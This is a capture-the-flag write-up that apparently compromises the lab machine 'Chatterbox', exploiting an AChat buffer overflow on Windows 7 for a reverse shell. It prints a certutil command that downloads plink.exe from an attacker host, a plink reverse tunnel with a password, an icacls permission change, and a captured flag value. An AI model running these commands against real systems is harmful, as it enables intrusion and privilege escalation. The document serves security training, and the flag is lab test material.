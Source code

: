 ## Initial Enumeration

`PORT      STATE SERVICE      VERSION 135/tcp   open  msrpc        Microsoft Windows RPC 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn 445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) 9255/tcp open  http    AChat chat system httpd |_http-title: Site doesn't have a title. |_http-server-header: AChat 9256/tcp open  achat   AChat chat system 49152/tcp open  msrpc        Microsoft Windows RPC 49153/tcp open  msrpc        Microsoft Windows RPC 49154/tcp open  msrpc        Microsoft Windows RPC 49155/tcp open  msrpc        Microsoft Windows RPC 49156/tcp open  msrpc        Microsoft Windows RPC 49157/tcp open  msrpc        Microsoft Windows RPC`

### SMB Enumeration

`Host script results: | smb-security-mode:  |   account_used: guest |   authentication_level: user |   challenge_response: supported |_  message_signing: disabled (dangerous, but default) | smb2-time:  |   date: 2025-03-16T07:26:01 |_  start_date: 2025-03-14T12:50:01 |_clock-skew: mean: 6h20m04s, deviation: 2h18m36s, median: 5h00m02s | smb2-security-mode:  |   2:1:0:  |_    Message signing enabled but not required | smb-os-discovery:  |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1) |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional |   Computer name: Chatterbox |   NetBIOS computer name: CHATTERBOX\x00 |   Workgroup: WORKGROUP\x00 |_  System time: 2025-03-16T03:26:02-04:00`

### Additional Information

- [SpeedGuide Port 9256](https://www.speedguide.net/port.php?port=9256)

![](Images/Pasted%20image%2020250315223211.png)

## Exploitation

We will follow the instructions in the exploit-db post to modify the Python code with the buffer generated via `msfvenom`.

[Exploit: AChat chat system remote command execution](https://www.exploit-db.com/exploits/36025)

### Update the Buffer and Write Pointer Address

Update the buffer with the necessary values and add the write pointer address for the target machine.

![](Images/Pasted%20image%2020250315230224.png)

![](Images/Pasted%20image%2020250315230254.png)

### Setting Up NC Listener and Running the Exploit

We need to set up our Netcat (NC) listener and run the code using Python 2 due to the exploit’s syntax.

![](Images/Pasted%20image%2020250315230337.png)

![](Images/Pasted%20image%2020250315230344.png)

After running the exploit, we successfully gain a shell on the target host as the user `alfred`.

**Note**: Chatterbox is a tough machine, as failing the exploit causes the machine to require a restart.

## Post Exploitation

Now that we have a normal-level user on the system, we can begin enumerating for possible privilege escalation.

### Grab User Flag

First, we can quickly grab the user flag from the desktop.

![](Pasted%20image%2020250315231006.png)

Flag:  
`d20c433812e9b5d408ecccd2d62c4631`

### Finding Administrator Flag

Since we don't have permissions to read the admin flag, let's continue enumeration.

![](Pasted%20image%2020250315231053.png)

After further enumeration, we discover credentials for the `Administrator` account in the registry. Since this is a CTF, we will assume these credentials are valid and attempt to use them to establish a session.

### Double-Checking Credentials with `netexec`

We verify the credentials are correct using `netexec`.

![](Pasted%20image%2020250315233619.png)

### Two Pathways for Obtaining the Admin Flag

#### 1. **Permission Misconfiguration**

We can see that although `alfred` doesn’t have direct access to read the file, they have full control over the directory and its respective files.

- `(I)` means **Inherited** permissions.
- `(OI)` stands for **Object Inherit**, which applies permissions to files within the directory.
- `(CI)` stands for **Container Inherit**, which applies permissions to subdirectories of the current directory.
- `(F)` stands for **Full Control**, meaning **SYSTEM** has full rights to the directory and its contents.

We can modify the permissions on the `root.txt` file using `alfred` to read the flag.

Command to grant full control to `alfred` on `root.txt`:

`icacls root.txt /grant CHATTERBOX\Alfred:(F)`

![](Pasted%20image%2020250315234838.png)

We can now read the root flag. This wasn’t likely the intended solution, as we didn’t "root" the box, so we will also attempt to generate a full administrative shell.

#### 2. **Spawning an Admin Shell via Port Forwarding**

We need to send `plink.exe` to the victim machine to start establishing the port forwarding.

Using `certutil` to download `plink.exe`:

`certutil -urlcache -f http://10.10.14.13/plink.exe plink.exe`

![](Pasted%20image%2020250315235951.png)

![](Pasted%20image%2020250316000138.png)

Now that `plink.exe` is on the victim machine, we establish a connection using:

`plink.exe -l root -pw kali -R 445:127.0.0.1:445 10.10.14.13 -P 2222`
![](Images/Pasted%20image%2020250316003043.png)
### Verifying the Connection with `netstat`

Check the connection:

`netstat -tuln`

![](Pasted%20image%2020250316002534.png)

We have successfully established the connection. Now we can interact with the host remotely.

### Running `winexe` to Open Admin Shell

Using `winexe` to open a new command prompt as Administrator. Although this shell isn’t the best, it gets the job done.

![](Pasted%20image%2020250316002702.png)

---
